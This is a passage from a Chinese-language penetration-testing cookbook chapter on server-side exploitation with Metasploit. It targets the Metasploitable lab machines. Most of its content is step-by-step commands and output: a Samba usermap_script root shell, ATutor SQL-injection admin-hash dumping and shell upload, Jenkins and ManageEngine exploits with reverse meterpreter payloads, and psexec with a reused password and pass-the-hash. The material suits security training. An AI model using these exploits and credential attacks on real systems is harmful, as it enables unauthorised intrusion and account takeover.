## 12 服务器端利用

本章将介绍以下配方：

- 利用 Linux 服务器
- SQL 注入
- Shell 类型
- 利用 Windows Server 机器
- 利用常见服务
- MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
- MS17-010 EternalRomance/EternalSynergy/EternalChampion
- 安装后门
- 拒绝服务

### 简介

在第 12 章《信息收集和扫描》中，我们专注于收集有关目标的信息，例如目标 IP 地址、开放端口、可用服务、操作系统等。信息收集过程中最大的资产之一是了解目标服务器或系统使用的操作系统。这些信息在渗透目标机器时可能非常有帮助，因为我们可以快速查找系统上运行的服务的漏洞和利用。虽然过程并不像听起来那么简单，但了解目标操作系统及其运行的服务可以在很大程度上简化我们的任务。


每个操作系统版本都存在一些漏洞。一旦被报告，针对它的漏洞利用开发流程就开始了。像 Windows 这样的商业操作系统会迅速为漏洞或缺陷开发补丁，并以更新的形式提供给用户。漏洞披露如今是一个大问题。许多零日漏洞披露在计算机行业造成了混乱。零日漏洞备受追捧，市场价格可能在 15,000 美元到 1,000,000 美元之间。漏洞会被检测和利用，但漏洞披露取决于研究人员及其意图。

诸如 Microsoft、Apple 和 Google 等知名公司会定期为其产品发布补丁，但应用补丁取决于用户。在企业环境中情况更糟，由于涉及停机时间且为确保业务连续性不受影响，服务器的修补往往需要数周时间。因此，强烈建议您更新系统或关注在使用中的操作系统中发现的任何最新漏洞。未修补的系统是黑客的安全港，因为他们会立即启动漏洞利用来入侵目标。因此，定期修补和更新操作系统至关重要。本章将重点关注在一些最流行的服务和操作系统中报告的漏洞。

在渗透测试过程中，一旦获得目标操作系统的信息，渗透测试人员就会开始寻找针对特定服务或操作系统缺陷的可用漏洞利用。因此，本章将是通过服务器端漏洞渗透目标的第一步。我们将重点关注微软的一些最广泛使用的操作系统，以及 Linux 的一些发行版。我们还将了解如何使用漏洞利用并设置其参数，使其在目标机器上可执行。最后但同样重要的是，我们将讨论 Metasploit Framework 中可用的一些有用有效载荷。让我们继续了解各种示例。

在目标机器上使用漏洞利用和有效载荷之前，我们首先需要了解它们的一些基本知识。理解漏洞利用的使用方法至关重要，这样您才能克服因参数配置错误而可能出现的一些常见错误。因此，让我们从使用漏洞利用的基础知识以及如何设置参数值开始。

为了在目标上开始使用漏洞利用，首先需要扫描目标的开放端口和服务。一旦您收集了足够的目标信息，下一步就是相应地选择漏洞利用。因此，让我们分析一些可以直接从 MSFconsole 启动的漏洞利用命令。

## 了解 MSFconsole

MSFconsole 是 Metasploit Framework 最流行的接口，允许访问大多数功能，并且是 Metasploit 中最稳定的接口。因此，让我们进一步了解 MSFconsole。

### MSFconsole 命令

要显示帮助菜单，只需在 msfconsole 中输入 help 命令：

```
msf > help
```

```
Core Commands
=============

Command      Description
--------     -----------
?            Help menu
banner       Display an awesome metasploit banner
cd           Change the current working directory
color        Toggle color
connect      Communicate with a host
...
```

```
Database Backend Commands
=========================

Command        Description
--------       -----------
db_connect     Connect to an existing database
db_disconnect  Disconnect from the current database instance
db_export      Export a file containing the contents of the
...
```

```
Credentials Backend Commands
============================

Command   Description
--------  -----------
creds     List all credentials in the database
```

```
msf >
```

看到输出结果起初可能会让人望而生畏；不过，我们已经学习了一些命令，例如数据库后端命令。现在，我们将重点关注在漏洞利用阶段最有帮助的命令，并在后续过程中学习剩余命令。

最有帮助的入门命令可能是 search 命令：

```
msf > search -h
Usage: search [keywords]

Keywords:
  app      : Modules that are client or server attacks
  author   : Modules written by this author
  bid      : Modules with a matching Bugtraq ID
  cve      : Modules with a matching CVE ID
  edb      : Modules with a matching Exploit-DB ID
  name     : Modules with a matching descriptive name
  platform : Modules affecting this platform
  ref      : Modules with a matching ref
  type     : Modules of a specific type (exploit, auxiliary, or post)

Examples:
  search cve:2009 type:exploit app:client

msf >
```

## 漏洞利用 Linux 服务器

Linux 是最广泛使用的操作系统之一。在之前的几个示例中，我们看到了如何扫描可用服务并使用漏洞扫描器查找漏洞。在本示例中，我们将处理 Linux 操作系统。我们将使用 Metasploitable 2 作为本示例中的易受攻击的 Linux 机器，但该过程对于利用运行 Samba 服务的任何 Linux 发行版和 Solaris 都是类似的。让我们继续进行示例。

### 准备工作

- 1. 首先，我们将使用 `services` 命令显示之前 `nmap` 扫描的结果并过滤端口 139 和 445：

```
msf > services -c port,info -p 139,445 192.168.216.129

Services
========

host      port  info
----      ----  ----
192.168.216.129  139  Samba smbd 3.X - 4.X workgroup:
WORKGROUP
192.168.216.129  445  Samba smbd 3.0.20-Debian workgroup:
WORKGROUP

msf >
```

- 2. 现在我们知道了正在运行的 Samba 守护进程的版本，我们可以搜索漏洞，然后使用 `search` 命令搜索可用的漏洞利用。

通过在 https://www.cvedetails.com 上在线研究与 Samba 3.0.20 相关的 **通用漏洞和暴露 (CVE)**，我们可以找到一些可以利用的漏洞。




- 3. 使用 `search` 命令并按 CVE 过滤，将类型设置为仅显示漏洞利用，关键字为 `samba`，我们会得到几个可能可用的漏洞利用。由于我们有一个评级为 excellent 的漏洞利用，我们将首先检查它。

### 操作方法

- 1. 要选择漏洞利用，请使用 `use` 命令后跟漏洞利用名称：
```
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) >
```
- 2. 现在我们已经选择了漏洞利用，可以通过运行 `info` 命令获取有关它的更多信息：
```
msf exploit(usermap_script) > info

Name: Samba "username map script" Command Execution
Module: exploit/multi/samba/usermap_script
Platform: Unix
Arch: cmd
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Excellent
Disclosed: 2007-05-14
...
Payload information:
Space: 1024

Description:
This module exploits a command execution vulnerability in Samba
versions 3.0.20 through 3.0.25rc3 when using the non-default
"username map script" configuration option. By specifying a
username
containing shell meta characters, attackers can execute
arbitrary
commands. No authentication is needed to exploit this
vulnerability
since this option is used to map usernames prior to
authentication!
...
msf exploit(usermap_script) >
```

使用 -f 选项的 info 命令会以 Markdown 版本在浏览器中显示信息。

如我们所见，该模块利用的是 Samba 3.0.20 至 3.0.25rc3 版本中的命令执行漏洞；很好，让我们试试。

- 3. 使用 show missing 命令，我们可以看到使用该漏洞利用需要填写哪些值：

```
msf exploit(usermap_script) > show missing

Module options (exploit/multi/samba/usermap_script):

Name           Current Setting      Required  Description
----           ---------------      --------  -----------
RHOST                                   yes       The target address

msf exploit(usermap_script) >
```

要显示模块的高级选项，可以使用 show advanced 命令。

- 4. 如预期，要运行漏洞利用我们需要指定目标的 IP 地址，因此我们将使用 set 命令指定 RHOST 值，并使用 exploit 命令利用目标：

```
msf exploit(usermap_script) > set RHOST 192.168.216.129
RHOST => 192.168.216.129
msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler on 192.168.216.5:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1igKJmg1Zhd8d8gz;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1igKJmg1Zhd8d8gz\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.216.5:4444 ->


```
192.168.216.129:44993) at 2017-10-25 07:13:36 -0400

hostname
metasploitable
^Z
Background session 1? [y/N] y
msf exploit(usermap_script) >
```

成功执行漏洞利用后，我们将获得与目标机器的 shell 连接。为了验证我们确实拥有访问权限，可以输入一些 Linux 命令，例如 hostname 命令来显示机器名称，而要将会话置于后台则使用 Ctrl + Z。

5. 要操作会话，我们使用 sessions 命令：

```
msf exploit(usermap_script) > sessions -h

Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C <opt> Run a Meterpreter Command on the session given with -i, or all
    -K Terminate all sessions
    -S <opt> Row search filter.
    -c <opt> Run a command on the session given with -i, or all
...
    -v List sessions in verbose mode
    -x Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example: sessions -s checkvm -i 1,3-5 or sessions -k 1-2,5,6

msf exploit(usermap_script) >
```

6. 要返回会话，我们使用 sessions 命令后跟 -i 选项和会话 ID；要中止会话则使用 Ctrl + C：

```
msf exploit(usermap_script) > sessions -i 1
[*] Starting interaction with 1...
```
```
metasploitable
whoami
root
^C
Abort session 1? [y/N] y

[*] 192.168.216.129 - Command shell session 1 closed. Reason:
User exit
msf exploit(usermap_script) >
```

## 如何工作...

让我们快速了解一下该服务、其漏洞利用方式以及工作原理。Samba 用于 Linux 和 Windows 机器之间的打印机和文件共享。该模块通过指定包含 shell 元字符的用户名，可以执行任意命令。由于此选项用于在身份验证之前映射用户名，因此利用此漏洞不需要身份验证！

## 关于 payload 呢？

由于我们没有指定 payload，Metasploit 已为我们完成；它选择了 Unix 反向 TCP shell，将监听地址填入我们的 Kali Linux IP 地址，并使用默认监听端口 4444。要显示此信息，我们可以使用 show options 命令：

```
msf exploit(usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

Name            Current Setting      Required  Description
----            ---------------      --------  -----------
RHOST           192.168.216.129      yes       The target address
RPORT           139                  yes       The target port (TCP)

Payload options (cmd/unix/reverse):

Name            Current Setting      Required  Description
----            ---------------      --------  -----------
LHOST           192.168.216.5        yes       The listen address
LPORT           4444                 yes       The listen port

Exploit target:

Id Name
```

列出所有可用 payload，我们使用 show payloads 命令：



sessions 命令有一个我最喜欢的选项 -u，它会尝试在许多平台上将 shell 升级为 meterpreter 会话，并允许我们利用 meterpreter 的所有高级功能：

```
msf exploit(usermap_script) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
```
```
[*] Started reverse TCP handler on 192.168.216.5:4433
[*] Sending stage (826872 bytes) to 192.168.216.129
[*] Meterpreter session 2 opened (192.168.216.5:4433 -> 192.168.216.129:55623) at 2017-10-25 08:50:53 -0400
[*] Command stager progress 100.00% (736/736 bytes)
msf exploit(usermap_script) >
```

再次运行 sessions 命令，我们可以看到现在有两个会话：



## SQL 注入

Metasploit 有多个模块可利用 SQL 注入漏洞，允许我们测试和验证目标是否易受此攻击。

## 准备工作

对于本教程，我们将安装一个易受攻击版本的 ATutor，这是一个免费的开源 LMS。

要下载 ATutor 2.2.1，请访问 https://www.exploit-db.com/exploits/39514/ 并点击易受攻击应用旁边的保存按钮：

| EDB-ID: 39514 | 作者: Metasploit | 发布日期: 2016-03-01 |
| CVE: CVE-2016-2555 | 类型: Remote | 平台: PHP |
| 别名: N/A | 建议/来源: N/A | 标签: Metasploit Framework |
| E-DB 已验证: ✔ | Exploit: 下载 / 查看原始 | 易受攻击的应用程序: [icon] |


要安装 ATutor，请按照官方网站的安装说明进行操作：http://www.atutor.ca/atutor/docs/installation.php。

## 如何操作...

该模块利用 ATutor 2.2.1 中的 SQL 注入漏洞和身份验证弱点漏洞，这意味着我们可以绕过身份验证、访问管理员界面并上传恶意代码。

- 1. 首先，让我们查看 exploit/multi/http/atutor_sqli 漏洞利用选项：



- 2. 在运行漏洞利用之前，我们可以使用 check 命令验证目标是否易受攻击：

```
msf exploit(atutor_sqli) > check
[+] 192.168.216.136:80 The target is vulnerable.
msf exploit(atutor_sqli) >
```

- 3. 要利用 ATutor 2.2.1 SQL 注入漏洞，我们需要设置目标主机 IP 地址并运行该模块：

```
msf exploit(atutor_sqli) > set RHOST 192.168.216.136
RHOST => 192.168.216.136
msf exploit(atutor_sqli) > set TARGETURI /
TARGETURI => /
msf exploit(atutor_sqli) > exploit
```
```
[*] Started reverse TCP handler on 192.168.216.5:4444
[*] 192.168.216.136:80 - Dumping the username and password hash...
[+] 192.168.216.136:80 - Got the admin's hash:
5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8 !
...
[!] This exploit may require manual cleanup of '/var/content/module/cqi/duso.php' on the target

meterpreter >
[+] 192.168.216.136:80 - Deleted duso.php

meterpreter > getuid
Server username: www-data (33)
meterpreter >
```

成功执行模块后，我们将以 HTTP 服务器的权限获得对 Web 服务器的远程访问

## shell 类型

在进入下一个主题之前，让我们谈谈可用的不同类型的 shell。查看可用 shell 的列表时，它们分为两类：bind 和 reverse。

bind shell 指示目标启动命令 shell 并在本地端口上监听，允许攻击者连接到目标的监听端口。bind shell 对于本地漏洞非常有用，例如，当你已通过钓鱼攻击入侵目标机器并希望利用本地服务进行权限提升时；然而，如今它不适合大多数远程利用场景，因为目标可能位于防火墙之后。

因此，大多数情况下我们会使用 reverse shell 作为 payload。reverse shell 会与攻击者机器建立连接，在这种情况下，攻击者机器是打开本地端口并监听连接的一方，并且由于大多数出站规则更宽松，reverse shell 更有可能绕过防火墙。

## Payloads

Metasploit Framework 中有三种不同的 payload 模块类型：singles、stag ers 和 stages。Singles 是自包含且完全独立的 payload。

一个 single payload 可以简单到向目标系统添加用户或运行可执行文件。

stager 会在攻击者和受害者之间建立网络连接，并且设计为小巧可靠。

stages 是由 stager 下载的 payload 组件，提供高级功能且没有大小限制，例如 dllinject、meterpreter、patchupdllinject、upexec、vncinject 等。

## 准备工作

由于我们已有来自上一个教程的工作漏洞利用，我们将使用它来测试不同类型的 payload。

## 如何操作...

- 1. 首先，我们将使用 show payloads 命令显示所有兼容的 payload：




2. 要获取有关特定 payload 的更多信息，我们可以使用 info 命令，后跟 payload 名称：

```
msf exploit(atutor_sqli) > info payload/generic/shell_bind_tcp

Name: Generic Command Shell, Bind TCP Inline
Module: payload/generic/shell_bind_tcp
Platform: All
...
Provided by:
 skape <mmiller@hick.org>
```

基本选项：

| 名称 | 当前设置 | 必需 | 描述 |
|------|-----------------|----------|-------------|
| LPORT | 4444 | yes | 监听端口 |
| RHOST |  | no | 目标地址 |

描述：
 侦听连接并生成一个命令 shell

```
msf exploit(atutor_sqli) >
```

3. generic/shell_bind_tcp 是一个独立的通用 bind TCP 命令 shell。要将 shell_bind_tcp 选择为我们的 payload，我们使用 set PAYLOAD 命令，后跟 payload 名称：

```
msf exploit(atutor_sqli) > set PAYLOAD generic/shell_bind_tcp
PAYLOAD => generic/shell_bind_tcp
msf exploit(atutor_sqli) > exploit

[*] Started bind handler
[*] 192.168.216.136:80 - Dumping the username and password hash...
[+] 192.168.216.136:80 - Got the admin's hash:
5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8 !
[*] Command shell session 1 opened (192.168.216.5:41033 -> 192.168.216.136:4444) at 2017-10-26 10:33:45 -0400
[+] 192.168.216.136:80 - Deleted soae.php
[!] Tried to delete /var/content/module/mgp/soae.php, unknown result

...
Background session 1? [y/N] y
msf exploit(atutor_sqli) >
```

4. 使用 generic/shell_bind_tcp，我们获得了一个通用命令 shell，有用但远非理想。我们可以与此 exploit 一起使用的功能丰富且更高级的 payload 是 PHP Meterpreter：

```
msf exploit(atutor_sqli) > info payload/php/meterpreter/reverse_tcp

Name: PHP Meterpreter, PHP Reverse TCP Stager
Module: payload/php/meterpreter/reverse_tcp
Platform: PHP
Arch: php
Needs Admin: No
Total size: 1101
Rank: Normal

Provided by:
 egypt <egypt@metasploit.com>

...
msf exploit(atutor_sqli) >
```

5. 使用反向 shell 时，例如 php/meterpreter/reverse_tcp，我们需要使用 set LHOST 指定监听地址，这将是我们 Kali Linux 机器的 IP 地址，以及使用 set LPORT 命令指定监听端口，如果我们不想使用默认端口 4444：

```
msf exploit(atutor_sqli) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(atutor_sqli) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(atutor_sqli) > exploit

...

meterpreter >
[+] 192.168.216.136:80 - Deleted dmci.php

meterpreter > getuid
Server username: www-data (33)
meterpreter >
```

## 利用 Windows Server 机器

利用信息收集和扫描期间收集的信息，我们将进入漏洞利用的世界。在本教程中，我们将了解如何使用 Metasploit 入侵运行 Windows Server 2008 R2 的 Metasploitable 3 目标系统。我们将使用上一节学到的命令，然后继续选择漏洞利用和 payload，并设置各种所需参数。

## 准备工作

我们将直接从 msfconsole 开始渗透测试过程。因此，启动控制台并执行端口扫描以收集有关目标的信息。我们在上一章详细讨论了端口扫描。在这里，我假设您已经收集了有关目标系统及其服务的信息。因此，让我们继续选择漏洞利用和 payload。

有时，仅查看 Nmap 或甚至漏洞扫描器的输出是不够的。services 命令的输出只显示服务器正在运行一个版本的 Apache：

```
msf > services -p 8020 192.168.216.10

Services
========
```

| 主机 | 端口 | 协议 | 名称 | 状态 | 信息 |
|------|------|-------|------|-------|------|
| 192.168.216.10 | 8020 | tcp | http | open | Apache httpd |

```
msf >
```

渗透测试不是自动化任务是有原因的；人类好奇，他们倾向于超越服务横幅进行查看。



正如屏幕截图所示，网页上包含了我们搜索漏洞所需的所有信息，因此不要忘记手动检查目标站点。我无法强调初级渗透测试人员因未在浏览器中打开目标站点而错过诸如默认凭据之类的琐碎漏洞的情况有多频繁。

当我们在新闻中看到数据泄露时，大多数时候都是由于密码重复使用；因此 psexec 是渗透测试人员最常使用的工具之一。

## 如何操作...

- 1. 查看目标系统上 8484 端口运行的服务，我们可以看到它正在运行 Jenkins；从上一章中使用的 Jenkins-CI Enumeration 辅助模块输出中，我们知道其版本：

```
msf > services 192.168.216.10 -p 8484

Services
=========
```

| 主机 | 端口 | 协议 | 名称 | 状态 | 信息 |
|------|------|-------|------|-------|------|
| 192.168.216.10 | 8484 | tcp | http | open | Jenkins Version - 1.637 |

```
msf >
```

有了这些信息，我们可以使用 search 命令快速搜索并查看有哪些可用的漏洞利用：



2. 要利用该系统，我们将使用 Jenkins-CI Script-Console Java 执行漏洞利用：

```
msf exploit(jenkins_script_console) > setg RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(jenkins_script_console) > set RPORT 8484
RPORT => 8484
msf exploit(jenkins_script_console) > set TARGETURI /
TARGETURI => /
msf exploit(jenkins_script_console) > exploit
...
```

```
meterpreter > sysinfo
Computer : VAGRANT-2008R2
OS : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
meterpreter >
```

让我们回顾一下我们迄今为止所做的工作。setg 在全局数据存储中设置一个值；这样我们使用的下一个模块将已经定义了 RHOST 值。要使用此漏洞利用，我们还需要指定远程端口和 Jenkins-CI 应用程序的路径，然后使用 exploit 命令利用目标。


unset 命令用于取消设置一个或多个变量。要刷新所有条目，请将 all 指定为变量名，-g 在全局数据存储变量上操作。

3. 由于我们未指定 payload，Metasploit 为我们做了选择：



默认情况下，Metasploit 使用了反向 TCP meterpreter payload。然而，我们有多个可用的 payload；要列出所有兼容的 payload，可以使用 show payloads 命令。

4. 现在我们知道目标正在运行 ManageEngine Desktop Central 版本 9，我们可以使用 search 命令查找可用的漏洞利用：



查看输出，我们有几个候选者；这再次说明为什么渗透测试人员尚未被脚本取代。仔细查看输出后，我们可以看到 ManageEngine Desktop Central 9 FileUploadServlet ConnectionId 漏洞是匹配的，我们可以进入下一阶段并利用目标：

```
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(manageengine_connectionid_write) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(manageengine_connectionid_write) > exploit
...

meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter >
```

这次，我们已指定了 payload，并选择使用 Windows Meterpreter Reverse HTTP Stager，它将通过反射 DLL 注入 payload 注入 meterpreter 服务器 DLL 并通过 HTTP 隧道传输通信。通过使用 HTTP，此 payload 更有可能绕过出站防火墙规则，因为大多数防火墙会允许机器建立到远程 HTTP 服务器的会话。

5. 要在 Metasploit 中使用 psexec，我们有几个选项；要列出所有 psexec 漏洞利用，我们可以使用 search 命令：



对于本教程，我们将查看 psexec 和 psexec_psh 漏洞利用。在信息收集和扫描阶段，我们能够暴力破解一些账户；使用这些凭据，我们将看看当用户重复使用密码时攻击者能做什么：

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUSER Administrator
SMBUSER => Administrator
msf exploit(psexec) > set SMBPASS vagrant
SMBPASS => vagrant
msf exploit(psexec) > run

...
meterpreter > sysinfo
Computer : VAGRANT-2008R2
OS : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(psexec) >
```

Microsoft Windows Authenticated User Code Execution 模块使用有效的管理员用户名和密码（或密码哈希）来执行任意 payload，与 SysInternals 提供的 psexec 实用程序类似。


另一种选择是使用哈希攻击，即攻击者窃取用户的哈希值，而无需破解它，即可重复使用它来欺骗身份验证系统创建新的已认证会话：

```
msf exploit(psexec) > set SMBPASS
 aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
 SMBPASS =>
 aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
 msf exploit(psexec) > exploit

 [*] Started reverse TCP handler on 192.168.216.5:4444
 [*] 192.168.216.10:445 - Connecting to the server...
 ...
 meterpreter >
```

## 利用常见服务

谈到利用时，会想到一些服务，主要是因为它们在大多数目标上都很常见，而且经常被忽视。

### 准备工作

在本教程中，我们将利用在目标环境中会找到的最常见且被滥用的服务之一，即 MySQL。大多数情况下我们能够利用 MySQL 服务，是因为它们是为开发目的而安装的，忽略了一些最佳实践，例如设置 root 密码或使用强密码。

### 如何操作

为了利用 Metasploitable 3 目标机器上的 MySQL 服务，我们将使用 MySQL Enumeration Module 辅助模块来枚举目标，并使用 Oracle MySQL for the Microsoft Windows Payload Execution 漏洞利用模块来获取远程 shell：

```
msf > use auxiliary/admin/mysql/mysql_enum
 msf auxiliary(mysql_enum) > set RHOST 192.168.216.10
 RHOST => 192.168.216.10
 msf auxiliary(mysql_enum) > set USERNAME root
 USERNAME => root
 msf auxiliary(mysql_enum) > run
```

```
[*] 192.168.216.10:3306 - Running MySQL Enumerator...
[*] 192.168.216.10:3306 - Enumerating Parameters
...
